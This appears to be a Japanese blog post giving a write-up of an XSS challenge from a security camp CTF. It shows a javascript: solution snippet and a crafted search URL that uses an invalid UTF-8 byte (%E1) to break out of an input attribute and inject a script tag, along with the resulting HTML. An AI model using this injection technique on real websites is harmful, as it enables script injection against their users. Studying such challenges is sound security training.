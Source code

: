 <p><a href="http://tyage.sakura.ne.jp/blog/?p=5">一度消えた</a>XSSの記事を復活させました。</p>
<h1>注意書き</h1>
<p>はせがわさんに大まかに教えてもらった上で解いたので、全部自力という訳ではないです＞＜</p>
<p>記事を書いたのは8月19日で、そこから公開をためらっていたのですが、少し需要があるようなので公開します。</p>
<p>以下ネタバレ注意です！</p>
<p>別の解き方があれば教えてください。<br />
</p>
<h1>セプキャンのCTFで出たXSS問題とは</h1>
<p>問題一覧はこちら<br />
<a href="http://d.hatena.ne.jp/hasegawayosuke/20100825/p1">セキュリティ＆プログラミングキャンプのCTFで出題したXSS問題</a></p>
<p>答えを得るだけであれば以下のスクリプトだけでよさそうです。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;">javascript<span style="color: #339933;">:</span>result<span style="color: #009900;">&#40;</span><span style="color: #3366CC;">'k'</span><span style="color: #339933;">,</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">new</span> <span style="">Date</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">getTime</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span></pre></td></tr></table></div>

<h2>一問目の回答例</h2>
<p>動作ブラウザ：だいたいどれでもOK?</p>
<p><a href="http://utf-8.jp/cgi-bin/xss1/search.cgi?q=%E1%22%3E%E1%22%3Cscript%20%E1%3E(alert)(1);//%E1%22%3C%2Fscript%20%E1%22%3E">http://utf-8.jp/cgi-bin/xss1/search.cgi?q=%E1%22%3E%E1%22%3Cscript%20%E1%3E(alert)(1);//%E1%22%3C%2Fscript%20%E1%22%3E</a></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>20
</pre></td><td class="code"><pre class="html4strict" style="font-family:monospace;"><span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">input</span> <span style="color: #000066;">type</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;text&quot;</span> <span style="color: #000066;">id</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">name</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">size</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;&quot;</span> <span style="color: #000066;">value</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;【ここに検索ワード！】&quot;</span> <span style="color: #66cc66;">/</span>&gt;</span></pre></td></tr></table></div>

<p>↓</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>20
</pre></td><td class="code"><pre class="html4strict" style="font-family:monospace;"><span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">input</span> <span style="color: #000066;">type</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;text&quot;</span> <span style="color: #000066;">id</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">name</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;q&quot;</span> <span style="color: #000066;">size</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;&quot;</span> <span style="color: #000066;">value</span><span style="color: #66cc66;">=</span><span style="color: #ff0000;">&quot;【%E1】&quot;</span>&gt;</span>【%E1】&quot;<span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">script</span> 【%E1】&gt;</span>(alert)(1);//【%E1】&quot;<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span><span style="color: #000000; font-weight: bold;">script</span>&gt;</span></pre></td></tr></table></div>
